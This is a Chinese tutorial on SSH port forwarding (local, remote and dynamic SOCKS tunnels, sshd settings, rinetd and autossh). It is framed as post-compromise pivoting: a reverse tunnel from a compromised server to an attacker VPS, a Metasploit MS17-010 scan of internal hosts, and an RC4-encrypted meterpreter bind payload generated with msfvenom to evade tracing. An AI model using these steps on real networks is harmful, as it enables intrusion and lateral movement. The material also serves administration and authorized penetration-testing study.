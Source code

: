 ```yaml
---
title: 基于ssh加密隧道的端口转发技术实现
date: 2020-06-06 16:36:17
tags:
---
```


## 概述

SSH会自动加密和解密所有SSH客户端与服务端之间的网络数据，还能够将其他TCP端口的网络数据通过SSH连接进行转发，并且自动提供了相应的加密及解密服务，这一过程被叫做“SSH隧道” (tunneling)。

SSH隧道加密传输有两大优势：
- 加密SSH Client 端至SSH Server 端之间的通讯数据
- 突破防火墙的限制完成一些之前无法建立的TCP 连接

通过使用SSH加密隧道，可以实现以下功能：
- 远端主机的命令行终端，例如mac的Terminal
- 远端主机的文件传输，例如sftp文件传输
- 远端主机的端口转发，这就是本文重点研究的内容， 即通过绑定一个本地端口，将所有发向这个端口的数据包，都会被加密并透明地传输到远端系统。

## ssh命令的环境依赖

SSH是基于C/S模式的架构，其配置文件分为：

### Server端的配置文件

- `/etc/ssh/sshd_config`

可以通过以下命令启动sshd的服务：`# service ssh restart`
配置文件的核心内容包括：

```
AllowTcpForwarding yes      # 是否允许TCP转发，默认值为”yes”。
GatewayPorts yes            # 是否允许远程主机连接本地的转发端口，默认值是”no”,可以防止连接到服务器计算机外部的转发端口。
TCPKeepAlive yes            # 允许任何人连接到转发的端口。如果服务器在公共互联网上，互联网上的任何人都可以连接到端口。
PasswordAuthentication yes  # 
```

参数详解
- AllowTcpForwarding：是否允许TCP转发，默认值为”yes”。

- GatewayPorts：是否允许远程主机连接本地的转发端口，默认值是”no”。
    - GatewayPorts no: 这可以防止连接到服务器计算机外部的转发端口。
    - GatewayPorts yes: 这允许任何人连接到转发的端口。如果服务器在公共互联网上，互联网上的任何人都可以连接到端口。

- GatewayPorts clientspecified：这意味着客户端可以指定一个IP地址，该IP地址允许连接到端口的连接。其命令是：
    `ssh -R 1.1.1.1:8080:localhost:80 www.example.com`
    在这个例子中，只有来自IP地址为1.1.1.1且目标端口是8080的被允许。

- TCPKeepAlive：指定系统是否向客户端发送 TCP keepalive 消息，默认值是”yes”。
    这种消息可以检测到死连接、连接不当关闭、客户端崩溃等异常。可以理解成保持心跳，防止 ssh 断开。

### Client端的配置文件

- `/etc/ssh/ssh_config`
- 用户配置文件：`~/.ssh/config`

## ssh命令的参数详解

关于建立ssh隧道时所用到一些参数的详细解释：

```
-C 压缩传输，加快传输速度
-f 在后台对用户名密码进行认证
-N 仅仅只用来转发，不用再弹回一个新的shell -n 后台运行
-q 安静模式，不要显示任何debug信息
-l 指定ssh登录名
-g 允许远程主机连接到本地用于转发的端口
-L 进行本地端口转发
-R 进行远程端口转发
-D 动态转发，即socks代理
-T 禁止分配伪终端
-p 指定远程ssh服务端口
```

## 工作模式一：本地转发

把本地端口数据转发到远程服务器，本地服务器作为SSH客户端及应用户端，称为正向 tcp 端口加密转发。

基础环境
本地攻击机 10.11.42.99
☁️VPS 192.168.144.174
☁️目标Widnwos Web服务器(出网) 192.168.144.210

具体流程
先在本地攻击机执行ssh转发，之后用远程桌面连接本地的33389端口，实际是连接192.168.144.210的远程桌面。
简单说 就是通过☁️VPS这台机器把本地攻击机的33389端口转到了☁️目标服务器的3389端口上，也就是说这个ssh 隧道是建立在本地攻击机与☁️VPS之间的。
1 | ssh -C -f -N -g -L listen_port:DST_Host:DST_port user@Tunnel_Host
2 | ssh -C -f -N -g -L 33389:192.168.144.210:3389 root@192.168.144.174 -p 22

## 工作模式二：远端转发

把远程端口数据转发到本地服务器，本地服务器作为SSH客户端及应用服务端，称为反向tcp端口加密转发。
基础环境
☁️VPS 10.11.42.99
☁️目标Linux Web服务器(出网) 192.168.144.174
目标Widnwos Web服务器(不出网) 192.168.144.210
必要配置
现已获取☁️目标服务器(出网)权限，在该机器上修改 ssh 配置：
1 | # vim /etc/ssh/sshd_config
2 | 
3 | AllowTcpForwarding yes
4 | GatewayPorts yes
5 | TCPKeepAlive yes
6 | PasswordAuthentication yes
7 | 
8 | # service ssh restart
具体流程
继续在☁️目标服务器(出网)执行ssh转发，通过 ☁️VPS这台机器，把来自外部的33389端口流量都转到目标服务器(不出网)的 3389 上。
1 | ssh -C -f -N -g -R listen_port:DST_Host:DST_port user@Tunnel_Host
2 | ssh -C -f -N -g -R 33389:192.168.144.210:3389 anonysec@10.11.42.99 -p 22

回到 ☁️VPS这台机器，查看33389端口是否处于监听状态。如果处于监听状态，则说明ssh隧道建立成功。

注意：隧道建立成功后，默认并非监听在 0.0.0.0，而是监听在 127.0.0.1，可以用rinetd再做一次本地转发。
先在☁️VPS上装好rinetd，之后在rinetd配置文件中添加一条转发规则。
1 | apt install rinetd -y
2 | vim /etc/rinetd.conf
3 | 
4 | 0.0.0.0 3389 127.0.0.1 33389 #转发规则
5 | 
6 | service rinetd start

rinetd本地转发后，查看端口是否处于监听状态。
1 | netstat -an |egrep "3389|33389"

远程连接☁️VPS的3389端口，成功连接进入目标服务器(不出网)的远程桌面中。

## 工作模式二：动态转发

动态端口转发实际上是建立一个ssh正向加密的socks4/5代理通道，任何支持socks4/5协议的程序都可以使用这个加密的通道来进行代理访问，称为正向加密socks。
基础环境
☁️VPS 10.11.42.99
☁️目标Linux Web服务器(出网) 192.168.144.174
目标Widnwos Web服务器(不出网) 192.168.144.210
目标Widnwos Web2服务器(不出网) 192.168.144.155
必要配置
现已获取☁️目标服务器(出网)权限，在该机器上修改 ssh 配置：
1 | # vim /etc/ssh/sshd_config
2 | 
3 | AllowTcpForwarding yes
4 | GatewayPorts yes
5 | TCPKeepAlive yes
6 | PasswordAuthentication yes
7 | 
8 | # service ssh restart
具体流程
在☁️VPS执行ssh转发，并查看10080端口是否处于监听状态。
1 | ssh -C -f -N -g -D listen_port user@Tunnel_Host
2 | ssh -C -f -N -g -D 10080 anonysec@10.11.42.99 -p 22 #监听127.0.0.1
3 | ssh -C -f -N -g -D 0.0.0.0:10080 anonysec@10.11.42.99 -p 22 #监听0.0.0.0

回到metasploit机器上，挂 socks 代理，扫描内网服务器MS17_010。
1 | sudo msfconsole -q
2 | msf5 > setg proxies socks5:10.11.42.99:10080
3 | msf5 > use auxiliary/scanner/smb/smb_ms17_010
4 | msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 192.168.144.210
5 | msf5 auxiliary(scanner/smb/smb_ms17_010) > set threads 10
6 | msf5 auxiliary(scanner/smb/smb_ms17_010) > run

双重加密
利用”ssh隧道+rc4双重加密”去连接目标内网下指定机器上的meterpreter，让payload变的更加难以追踪。
首先，用msfvenom生成bind的rc4 payload，并将rc4.exe传入到目标Web2服务器(不出网)中，并执行。
1 | msfvenom -p windows/meterpreter/bind_tcp_rc4 rc4password=AnonySec lport=443 -f exe -o rc4.exe
回到metasploit机器上，挂 socks 代理，直接bind连接到目标内网中Web2服务器(不出网)的meterpreter下。
1 | sudo msfconsole -q
2 | msf5 > setg proxies socks5:10.11.42.99:10080
3 | msf5 > use exploit/multi/handler
4 | msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp_rc4
5 | msf5 exploit(multi/handler) > set rc4password AnonySec
6 | msf5 exploit(multi/handler) > set rhost  192.168.144.155
7 | msf5 exploit(multi/handler) > set lport 443
8 | msf5 exploit(multi/handler) > run -j

---

## 附录一：autossh命令

在Linux上配置开机自动启动autossh，可以免去了重启Linux后要自己启动的autossh的麻烦。
具体实现是在`/etc/rc.local`中增加如下配置信息，即可实现自动启动了。

``` txt
autossh -M 8000  -fNR 8099:localhost:8999 root@59.113333.11  -p 22
```

